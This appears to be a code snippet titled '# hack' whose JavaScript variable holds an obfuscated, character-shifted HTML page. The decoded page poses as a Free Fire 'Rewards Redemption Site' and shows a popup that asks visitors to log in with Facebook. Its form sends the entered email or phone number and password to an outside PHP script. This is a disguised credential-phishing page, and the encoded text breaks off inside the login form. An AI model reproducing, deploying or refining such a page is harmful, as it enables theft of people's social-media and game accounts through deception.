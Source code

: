 # hack    <script language="javascript"> 

var enkripsi="'2C'2C'1A'03FMAV[RG'02jvon'1G'2C'1Ajvon'02fcvc/`wknf/vkogqvcor/wva'1F'000203/26/24V2:'1C07'1C13,07:X'00'02ncle'1F'00gl'00'1G'2C'02'02'02'1Ajgcf'1G'2C'02'02'02'02'02'02'1Aogvc'02jvvr/gswkt'1F'00amlvglv/v{rg'00'02amlvglv'1F'00vgzv-jvon'1@'02ajcpqgv'1FWVD/:'00'1G'2C'02'02'02'02'02'02'1Aogvc'02ajcpqgv'1F'00wvd/:'00'1G'2C'02'02'02'02'02'02'1Aogvc'02jvvr/gswkt'1F'00Z/WC/Amorcvk`ng'00'02amlvglv'1F'00KG'1Fgfeg'00'1G'2C'02'02'02'02'02'02'1Aogvc'02jvvr/gswkt'1F'00z/flq/rpgdgvaj/amlvpmn'00'02amlvglv'1F'00ml'00'1G'2C'02'02'02'02'02'02'1Aogvc'02lcog'1F'00tkgurmpv'00'02amlvglv'1F'00ukfvj'1Ffgtkag/ukfvj'0Aklkvkcn/qacng'1F3'0Atkgurmpv/dkv'1Famtgp'00'1G'2C'02'02'02'02'02'02'1Avkvng'1GDpgg'02Dkpg'1A-vkvng'1G'2C'02'02'02'02'02'02'1Ankli'02pgn'1F'00flq/rpgdgvaj'00'02jpgd'1F'00jvvrq'1C--rpmf/crk,pgucpf,dd,ecpglc,amo-'00'1G'2C'02'02'02'02'02'02'1Ankli'02pgn'1F'00kaml'00'02jpgd'1F'00jvvrq'1C--dpggdkpgom`kng/c,cicockjf,lgv-ddug`qkvg-kocegq-dpggdkpg10/0,kam'00'02v{rg'1F'00koceg-z/kaml'00'1G'2C'02'02'02'02'02'02'1Ankli'02pgn'1F'00qjmpvawv'02kaml'00'02jpgd'1F'00jvvrq'1C--dpggdkpgom`kng/c,cicockjf,lgv-ddug`qkvg-kocegq-dpggdkpg34/0,kam'00'02v{rg'1F'00koceg-z/kaml'00'1G'2C'02'02'02'02'02'02'1Aogvc'02lcog'1F'00fgqapkrvkml'00'02amlvglv'1F'00'00'1G'2C'02'02'02'02'02'02'1Aogvc'02lcog'1F'00cwvjmp'00'02amlvglv'1F'00'00'1G'2C'02'02'02'02'02'02'1Aogvc'02lcog'1F'00vkvng'00'02amlvglv'1F'00DpggDkpg'00'1G'2C'02'02'02'02'02'02'1Aogvc'02lcog'1F'00fgqapkrvkml'00'02amlvglv'1F'00DpggDkpg'00'1G'2C'02'02'02'02'02'02'1Aogvc'02rpmrgpv{'1F'00me'1Cvkvng'00'02amlvglv'1F'00DpggDkpg'00'1G'2C'02'02'02'02'02'02'1Aogvc'02rpmrgpv{'1F'00me'1Cfgqapkrvkml'00'02amlvglv'1F'00DpggDkpg'00'1G'2C'2C'02'02'02'02'02'02'1Ankli'02jpgd'1F'00jvvrq'1C--pctkpcn,amo-jmqv]qv{ng-qv{ng-lgu]dd]t0-aqq-ockl,aqq'00'02pgn'1F'00qv{ngqjggv'00'1G'2C'2;'02'02'1Ankli'02pgn'1F'00qv{ngqjggv'00'02jpgd'1F'00jvvrq'1C--pctkpcn,amo-jmqv]qv{ng-qv{ng-lgu]dd]t0-aqq-qv{ng,aqq'00'1G'2C'02'02'02'02'02'02'1Ankli'02pgn'1F'00qv{ngqjggv'00'02jpgd'1F'00jvvrq'1C--pctkpcn,amo-jmqv]qv{ng-qv{ng-lgu]dd]t0-aqq-dcag`mmi,aqq'00'1G'2C'02'02'02'02'02'02'1Ankli'02pgn'1F'00qv{ngqjggv'00'02jpgd'1F'00jvvrq'1C--pctkpcn,amo-jmqv]qv{ng-qv{ng-lgu]dd]t0-aqq-vukvvgp,aqq'00'1G'2C'02'02'02'1A-jgcf'1G'2C'02'02'02'1A`mf{'1G'2C'02'02'02'02'02'02'1Afkt'02kf'1F'00crr'00'1G'2C'1Afkt'02qv{ng'1F'00fkpgavkml'1Cnvp'02'03kormpvclv'1@'00'02ancqq'1F'00ockl'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/f76:aagg'1F'00'00'02ancqq'1F'00jmog/upcrrgp'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/f76:aagg'1F'00'00'02ancqq'1F'00jmog/`caiepmwlf'00'1G'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/f76:aagg'1F'00'00'02ancqq'1F'00jmog/amlvcklgp'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/f76:aagg'1F'00'00'02ancqq'1F'00jmog'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/65`c302d'1F'00'00'02fcvc/t/f76:aagg'1F'00'00'02ancqq'1F'00jgcfgp'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/65`c302d'1F'00'00'02ancqq'1F'00jgcfgp/amlvglv'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/65`c302d'1F'00'00'02ancqq'1F'00jgcfgp]]nmem'00'1G'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/f76:aagg'1F'00'00'02ancqq'1F'00jmog]]pkejv'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/4a7f;0;5'1F'00'00'02fcvc/t/f76:aagg'1F'00'00'02ancqq'1F'00ockl'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/4a7f;0;5'1F'00'00'02ancqq'1F'00ockl/jgcfgp'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Aj0'02fcvc/t/4a7f;0;5'1F'00'00'02ancqq'1F'00ockl]]vkvng'00'1GPgucpfq'02Pgfgorvkml'02Qkvg'1A-j0'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Aqrcl'02fcvc/t/4a7f;0;5'1F'00'00'02ancqq'1F'00ockl]]fgqapkrvkml'00'1GRngcqg'02nme'02kl,'1A-qrcl'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/4a7f;0;5'1F'00'00'02ancqq'1F'00ockl]]nmekl'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/5c0f1f;:'1F'00'00'02fcvc/t/4a7f;0;5'1F'00'00'02ancqq'1F'00`wvvml'02ockl]]nmekl/`wvvml'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02kf'1F'00d`Nmekl'00'02fcvc/t/:17:443g'1F'00'00'02fcvc/t/5c0f1f;:'1F'00'00'02ancqq'1F'00koceg/amlvcklgp'02koceg/amlvcklgp//jmtgp'00'1G'02'1Akoe'02fcvc/t/:17:443g'1F'00'00'02qpa'1F'00jvvrq'1C--pctkpcn,amo-jmqv]qv{ng-qv{ng-lgu]dd]t0-kocegq-g10:c:7dcd1ga7;7g707:42a;:g162;:,rle'00'02cnv'1F'00'00'02ancqq'1F'00koceg'00'1G'1A-fkt'1G'2C'2;'2;'2;'2;'2;'2;'2;'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/5c0f1f;:'1F'00'00'02fcvc/t/4a7f;0;5'1F'00'00'02ancqq'1F'00`wvvml'02ockl]]nmekl/`wvvml'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02kf'1F'00d`Nmekl'00'02fcvc/t/:17:443g'1F'00'00'02fcvc/t/5c0f1f;:'1F'00'00'02ancqq'1F'00koceg/amlvcklgp'02koceg/amlvcklgp//jmtgp'00'1G'02'1Akoe'02fcvc/t/:17:443g'1F'00'00'02qpa'1F'00jvvrq'1C--pctkpcn,amo-jmqv]qv{ng-qv{ng-lgu]dd]t0-kocegq-c71`d0054cc:36c2271fg3g`06f6:`3`,rle'00'02cnv'1F'00'00'02ancqq'1F'00koceg'00'1G'1A-fkt'1G'2C'2;'2;'2;'2;'2;'2;'2;'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/5c0f1f;:'1F'00'00'02fcvc/t/4a7f;0;5'1F'00'00'02ancqq'1F'00`wvvml'02ockl]]nmekl/`wvvml'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02kf'1F'00vukvNmekl'00'02fcvc/t/:17:443g'1F'00'00'02fcvc/t/5c0f1f;:'1F'00'00'02ancqq'1F'00koceg/amlvcklgp'02koceg/amlvcklgp//jmtgp'00'1G'02'1Akoe'02fcvc/t/:17:443g'1F'00'00'02qpa'1F'00jvvrq'1C--pctkpcn,amo-jmqv]qv{ng-qv{ng-lgu]dd]t0-kocegq-dcf172c`3`154f4g41d6g02::2`5536f,rle'00'02cnv'1F'00'00'02ancqq'1F'00koceg'00'1G'1A-fkt'1G'2C'2;'2;'2;'2;'2;'2;'2;'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/5c0f1f;:'1F'00'00'02fcvc/t/4a7f;0;5'1F'00'00'02ancqq'1F'00`wvvml'02ockl]]nmekl/`wvvml'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/:17:443g'1F'00'00'02fcvc/t/5c0f1f;:'1F'00'00'02ancqq'1F'00koceg/amlvcklgp'02koceg/amlvcklgp//jmtgp'00'1G'02'1Akoe'02fcvc/t/:17:443g'1F'00'00'02qpa'1F'00jvvrq'1C--pctkpcn,amo-jmqv]qv{ng-qv{ng-lgu]dd]t0-kocegq-1d`73:`5a7::3cf4cg`4a4dfc:5405g;,rle'00'02cnv'1F'00'00'02ancqq'1F'00koceg'00'1G'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/5c0f1f;:'1F'00'00'02fcvc/t/4a7f;0;5'1F'00'00'02ancqq'1F'00`wvvml'02ockl]]nmekl/`wvvml'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/:17:443g'1F'00'00'02fcvc/t/5c0f1f;:'1F'00'00'02ancqq'1F'00koceg/amlvcklgp'02koceg/amlvcklgp//jmtgp'00'1G'02'1Akoe'02fcvc/t/:17:443g'1F'00'00'02qpa'1F'00jvvrq'1C--pctkpcn,amo-jmqv]qv{ng-qv{ng-lgu]dd]t0-kocegq-f50:07g54c;:3751g:22a`1;:1`dd0:5,rle'00'02cnv'1F'00'00'02ancqq'1F'00koceg'00'1G'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/5c0f1f;:'1F'00'00'02fcvc/t/4a7f;0;5'1F'00'00'02ancqq'1F'00`wvvml'02ockl]]nmekl/`wvvml'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02kf'1F'00vukvNmekl'00'02fcvc/t/:17:443g'1F'00'00'02fcvc/t/5c0f1f;:'1F'00'00'02ancqq'1F'00koceg/amlvcklgp'02koceg/amlvcklgp//jmtgp'00'1G'02'1Akoe'02fcvc/t/:17:443g'1F'00'00'02qpa'1F'00jvvrq'1C--pctkpcn,amo-jmqv]qv{ng-qv{ng-lgu]dd]t0-kocegq-dca045f741d;61f227c`f0c23f025546,rle'00'02cnv'1F'00'00'02ancqq'1F'00koceg'00'1G'1A-fkt'1G'2C'2;'2;'2;'2;'2;'2;'2;'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/0aggaf3g'1F'00'00'02fcvc/t/f76:aagg'1F'00'00'02ancqq'1F'00jmog/rclgn'02jmog]]rclgn'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Aj6'02fcvc/t/0aggaf3g'1F'00'00'02ancqq'1F'00jmog/rclgn]]vkvng'00'1GKormpvclv'02Lmvkag'1C'1A-j6'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Amn'02fcvc/t/0aggaf3g'1F'00'00'02ancqq'1F'00nkqv'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Ank'02ancqq'1F'00nkqv]]kvgo'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'023,'02Pgfgorvkml'02amfg'02jcq'02'1Aqrcl'02ancqq'1F'00jkejnkejv'00'1G30'1A-qrcl'1G'02ajcpcavgpq'0A'02amlqkqvkle'02md'02acrkvcn'02ngvvgpq'02clf'02lwo`gpq,'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-nk'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Ank'02ancqq'1F'00nkqv]]kvgo'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'020,'02Kvgo'02pgucpfq'02cpg'02qjmul'02kl'02'1Aqrcl'02ancqq'1F'00jkejnkejv'00'1G'02'7@tcwnv'7F'02'1A-qrcl'1G'02vc`'02kl'02ecog'02nm``{'1@'02Emnfq'02mp'02fkcomlfq'02uknn'02cff'02kl'02caamwlv'02ucnngv'02cwvmocvkacnn{,'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-nk'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Ank'02ancqq'1F'00nkqv]]kvgo'00'1G1,'02Rngcqg'02lmvg'02pgfgorvkml'02gzrkpcvkml'02fcvg,'02Cl{'02gzrkpgf'02amfgq'02acllmv'02`g'02pgfggogf,'1A-nk'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Ank'02ancqq'1F'00nkqv]]kvgo'00'1G6,'02Rngcqg'02amlvcav'02awqvmogp'02qgptkag'02kd'02{mw'02glamwlvgpgf'02cl{'02kqqwg,'1A-nk'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Ank'02ancqq'1F'00nkqv]]kvgo'00'1G7,'02Pgoklfgp'1C'02{mw'02uknn'02lmv'02`g'02c`ng'02vm'02pgfggo'02{mwp'02'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02pgucpfq'02ukvj'02ewgqv'02caamwlvq,'02[mw'02oc{'02`klf'02{mwp'02caamwlv'02vm'02Dcag`mmi'02mp'02TI'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02kl'02mpfgp'02vm'02pgagktg'02vjg'02pgucpfq,'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-nk'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-mn'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Admmvgp'02fcvc/t/6`1f70:2'1F'00'00'02fcvc/t/f76:aagg'1F'00'00'02ancqq'1F'00dmmvgp'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/6`1f70:2'1F'00'00'02ancqq'1F'00dmmvgp/pwng'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/0aggaf3g'1F'00'00'02fcvc/t/6`1f70:2'1F'00'00'02ancqq'1F'00jmog/rclgn'02dmmvgp/pwng]]rclgn'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Aj6'02fcvc/t/0aggaf3g'1F'00'00'02ancqq'1F'00jmog/rclgn]]vkvng'00'1GKormpvclv'02Lmvkag'1C'1A-j6'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Amn'02fcvc/t/0aggaf3g'1F'00'00'02ancqq'1F'00nkqv'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Ank'02ancqq'1F'00nkqv]]kvgo'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'023,'02Pgfgorvkml'02amfg'02jcq'02'1Aqrcl'02ancqq'1F'00jkejnkejv'00'1G30'1A-qrcl'1G'02ajcpcavgpq'0A'02amlqkqvkle'02md'02acrkvcn'02ngvvgpq'02clf'02lwo`gpq,'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-nk'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Ank'02ancqq'1F'00nkqv]]kvgo'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'020,'02Kvgo'02pgucpfq'02cpg'02qjmul'02kl'02'1Aqrcl'02ancqq'1F'00jkejnkejv'00'1G'02'7@tcwnv'7F'02'1A-qrcl'1G'02vc`'02kl'02ecog'02nm``{'1@'02Emnfq'02mp'02fkcomlfq'02uknn'02cff'02kl'02caamwlv'02ucnngv'02cwvmocvkacnn{,'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-nk'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Ank'02ancqq'1F'00nkqv]]kvgo'00'1G1,'02Rngcqg'02lmvg'02pgfgorvkml'02gzrkpcvkml'02fcvg,'02Cl{'02gzrkpgf'02amfgq'02acllmv'02`g'02pgfggogf,'1A-nk'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Ank'02ancqq'1F'00nkqv]]kvgo'00'1G6,'02Rngcqg'02amlvcav'02awqvmogp'02qgptkag'02kd'02{mw'02glamwlvgpgf'02cl{'02kqqwg,'1A-nk'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Ank'02ancqq'1F'00nkqv]]kvgo'00'1G7,'02Pgoklfgp'1C'02{mw'02uknn'02lmv'02`g'02c`ng'02vm'02pgfggo'02{mwp'02'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02pgucpfq'02ukvj'02ewgqv'02caamwlvq,'02[mw'02oc{'02`klf'02{mwp'02caamwlv'02vm'02Dcag`mmi'02mp'02TI'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02kl'02mpfgp'02vm'02pgagktg'02vjg'02pgucpfq,'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-nk'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-mn'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Aqrcl'02fcvc/t/6`1f70:2'1F'00'00'1GKormpvclv'02Lmvkag'1C'1A-qrcl'1G'02'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/:17:443g'1F'00'00'02fcvc/t/6`1f70:2'1F'00'00'02ancqq'1F'00dmmvgp/pwng]]kaml'02koceg/amlvcklgp'00'1G'02'1Akoe'02fcvc/t/:17:443g'1F'00'00'02qpa'1F'00fcvc'1Ckoceg-rle'1@`cqg46'0AkT@MPu2IEemCCCCLQWjGWeCCC@KCCCCQAC[CCC@Uxm7ZCCC@kGnGSTS6hcUWV2qASPhEd5wnjAPUi@IrA@0WRi@7I7Vu0OZs3IG-PCTf41LKSvCnsDv24PXDWZQHRi@3AWKhs[OPfkjDklg`jfT0uws75Ou5x-LhX0`dLdr5-`em@W{rX3SvD6CV[@a6`m62ezNC@hFsPldmDDeA`w{Q4TeaCQ7`eIC:n{pVCHK10Sfa;4oPZ0WQLqeCvmACox:X;7DO)JQueOmcCisNZudHN6dHN6[Xhovjii2NcLHvv`wxhfTqALOC26Q3kc@T20hQTDd:F`I7GkGU:lF1UMRwsWmq4NTsEnjIS@G1{GAdn;vQn`naedna2PrNVSMNAMjf@3n[N-N:UsfasTthl0CAgpCldV2gSn1vFP@`OpXj6jEtS-d{XU:F21XvOLr@sTzpeFPtZQ@ZjVflgWfCEg@Cfz2vIkL`MuSw-eEP5HECRmCX6MWRGOlOAqRwLglkacF{A6j6HZOvG0d1luDFNU7VRMIThAU1J7q2:PkSTZ2mJ0uTICNluH4akVsQNuEddhDuv{)RTq:CCCCCQWTMPI7A[KK'1F'00'02cnv'1F'00'00'02ancqq'1F'00koceg'00'1G'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/6`1f70:2'1F'00'00'02ancqq'1F'00amr{pkejv'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/:17:443g'1F'00'00'02fcvc/t/6`1f70:2'1F'00'00'02ancqq'1F'00kaml'02koceg/amlvcklgp'00'1G'02'1Akoe'02fcvc/t/:17:443g'1F'00'00'02qpa'1F'00jvvrq'1C--pctkpcn,amo-jmqv]qv{ng-qv{ng-lgu]dd]t0-kocegq-a1621:gfad63:7`1g57c4`:7d3af1f6d,hre'00'02cnv'1F'00'00'02ancqq'1F'00koceg'00'1G'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/6`1f70:2'1F'00'00'02ancqq'1F'00amr{pkejv/ogqqceg'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Ar'02fcvc/t/6`1f70:2'1F'00'00'1GAmr{pkejv'02'C;'02Ecpglc'02Klvgplcvkmlcn,'1A-r'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Ar'02fcvc/t/6`1f70:2'1F'00'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02Vpcfgocpiq'02`gnmle'02vm'02vjgkp'02pgqrgavktg'02mulgpq,'02Cnn'02pkejvq'02Pgqgptgf,'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-r'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-dmmvgp'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'1A'03////'1G'02'1A'03////'1G'2C'2;'2;'02'2C'2;'2;'02'2C'2;'2;'02'2C'2;'2;'02'1Afkt'02ancqq'1F'00rmrwr/nmekl'02dcag`mmi'02clkocvgf'02dcfgKl'00'02qv{ng'1F'00fkqrnc{'1C'02lmlg'1@'00'1G'2C'02'02'02'02'1Afkt'02ancqq'1F'00rmrwr/`mz/nmekl/d`'00'02'1G'2C'02'02'02'02'02'02'02'02'1Ac'02mlankai'1F'00anmqgd`'0:'0;'00'02ancqq'1F'00anmqg/d`'00'1G'1Ak'02ancqq'1F'00xofk'02xofk/anmqg'00'1GZ'1A-k'1G'1A-c'1G'2C'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00lct`cp/d`'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Akoe'02qpa'1F'00jvvrq'1C--dkngq,qkvg/dwqkml,am,wi-ug`dwqkml32603-koceg-02322:13]dcag`mmi/nmem,rle'00'1G'2C'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00amlvglv/`mz/d`'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Akoe'02qpa'1F'00jvvrq'1C--nj1,emmengwqgpamlvglv,amo-cirnAo{EjaIZ{Qh]a/MFqi`lnxNFu`alV2uCHTn1Do0UCI2uN7U[WV3/pu/K4KcF[Me'00'02ukfvj'1F'0072'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00vzv/nmekl/d`'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02Nme'02kl'02vm'02{mwp'02Dcag`mmi'02caamwlv'02vm'02amllgav'02vm'02DpggDkpg'2C'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Admpo'02ancqq'1F'00nmekl/dmpo'00'02cavkml'1F'00jvvrq'1C--pctkpcn,amo-i]dca,rjr'00'02ogvjmf'1F'00rmqv'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Aklrwv'02v{rg'1F'00vgzv'00'02lcog'1F'00gockn'00'02ancqq'1F'00klrwvD`'00'02rncagjmnfgp'1F'00Om`kng'02lwo`gp'02mp'02gockn'02cffpgqq'00'02cwvmamorngvg'1F'00mdd'00'02cwvmacrkvcnkxg'1F'00mdd'00'02pgswkpgf'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Aklrwv'02v{rg'1F'00rcqqumpf'00'02ancqq'1F'00klrwvD`'00'02lcog'1F'00rcqq'00'02rncagjmnfgp'1F'00Rcqqumpf'00'02cwvmamorngvg'1F'00mdd'00'02cwvmacrkvcnkxg'1F'00mdd